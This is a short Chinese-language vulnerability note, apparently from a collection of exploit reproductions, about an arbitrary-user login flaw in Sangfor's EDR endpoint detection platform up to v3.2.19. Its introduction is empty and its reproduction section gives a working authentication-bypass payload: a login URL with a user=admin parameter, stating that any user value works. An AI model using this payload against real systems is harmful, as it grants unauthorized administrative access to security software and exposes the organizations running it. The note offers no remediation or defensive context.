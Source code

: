 深信服 终端检测相应平台（EDR） 任意用户登陆漏洞
===============================================

一、漏洞简介
------------

二、漏洞影响
------------

EDR \<= v3.2.19

三、复现过程
------------

payload：user后面任意填写都ok

    https://www.0-sec.org:443/ui/login.php?user=admin

![15.png](resource/深信服终端检测相应平台(EDR)任意用户登陆漏洞/media/rId24.png)
